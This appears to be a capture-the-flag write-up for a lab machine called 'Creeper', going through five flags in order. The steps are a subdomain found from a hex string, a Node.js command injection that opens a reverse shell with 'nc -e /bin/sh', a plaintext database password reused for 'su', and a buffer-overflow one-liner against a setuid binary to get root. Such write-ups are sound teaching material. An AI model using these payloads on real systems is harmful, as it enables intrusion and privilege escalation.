







# Creeper - Full Pwn

## WEB101

Starting with nmap we get 4 ports open.

Enumerating the web page we get the first flag.

**UNIWA{p0rt_80_1s_w3b}**

## PORTAL

We also see a hex number. From hex number we get `rcon.` which is a subdomain `rcon.creeper.com`. Visiting the subdomain we get the second flag.

**UNIWA{V1rtual_h0sts_4re_gr34t }**

## COMMAND BLOCK

In the subdomain there is a NodeJS console where we can execute commands for the game Minecraft. Enumerating the commands we can execute, we can use the command `ccalculate` that executes shell commands. With the following payload we get a reverse shell to our machine:

`ccalculate require("child_process").exec("nc -e /bin/sh <IP> <PORT>")`

Changing directory we get the flag.txt

**UNIWA{Cr33py_N0de_JS_sh3ll}**

## BUILD STRAIGHT

Enumerating the machine we get passwords from Minecraft service in `/home/blaze/Server/plugins/AuthMe/config.yml` for user `wither`:
`mySQLUsername: wither`
`mySQLPassword: End3rDr4gonsAreB3tt3r`

Changing user with `su wither` and prompt the password we get shell as `wither` and get the flag.txt.

**UNIWA{R3us3d_p4ssw0rds_suck}**

## ENDERDRAGON

Enumerating for binaries we get a binary 0xdeadbeef in `/usr/games` with setuid

Passing the payload to occur buffer overflow in the binary we get shell as root

`(python -c 'print "1234" + "\xef\xbe\xad\xde"'; cat -) | ./0xdeadbeef`

**UNIWA{0verfl0w_my_buff3r}**